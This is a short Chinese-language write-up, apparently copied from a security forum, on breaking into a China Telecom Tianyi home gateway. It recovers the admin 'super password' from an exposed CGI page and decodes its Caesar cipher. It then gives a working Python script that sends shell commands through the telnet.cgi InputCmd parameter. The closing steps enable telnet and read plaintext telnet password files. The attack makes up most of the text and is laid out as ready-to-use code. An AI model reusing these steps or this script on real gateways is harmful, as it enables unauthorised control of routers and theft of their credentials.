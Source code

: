 # 记一次破解天翼网关


>https://xz.aliyun.com/t/9046#toc-1

1. 设备信息
![设备信息](_v_images/20221222170415632_6307.png)


2.首先获取超级密码
访问http://192.168.1.1:8080/cgi-bin/baseinfoSet.cgi

![](_v_images/20221222171347277_19524.png)


凯撒密码，编写python脚本来解密
![](_v_images/20221222170648272_2876.png)

3. 使用超级账号密码登录


访问http://192.168.1.1:8080/cgi-bin/telnet.cgi通过InputCmd参数可以直接执行系统命令，
访问http://192.168.1.1:8080/cgi-bin/submit.cgi可以看到执行结果，

编写简单的脚本, 方便看回显
```python
from urllib import parse
import requests

host = "http://192.168.1.1:8080"
send_url = host+"/cgi-bin/telnet.cgi"
response_url = host+"/cgi-bin/submit.cgi"

def f(cmd):
	HEADERS = {'Content-Type': 'application/x-www-form-urlencoded;charset=utf-8'}
	data = {"InputCmd":cmd}

	r = requests.post(send_url, data=parse.urlencode(data)).text
	print("[-] send done:")
	print(r)

	rep = requests.get(response_url).text
	print('[-] resp:')
	print(rep)
if __name__ == '__main__':
	while True:
	    c = input("")
	    f(c)
```


4. 打开telnet

访问 192.168.1.1:8080/cgi-bin/telnetenable.cgi?telnetenable=1 即可

5. 寻找telnet密码

尝试写入/etc/passwd， 但是不起作用，想着看看有没有明文密码

cat /flash/cfg/agentconf/factory.conf 没有
在/var 目录下找到一个密码文件，确定了

![](_v_images/20221222170242535_17309.png)


cat /var/telWan_passwd

![](_v_images/20221222170248974_17861.png)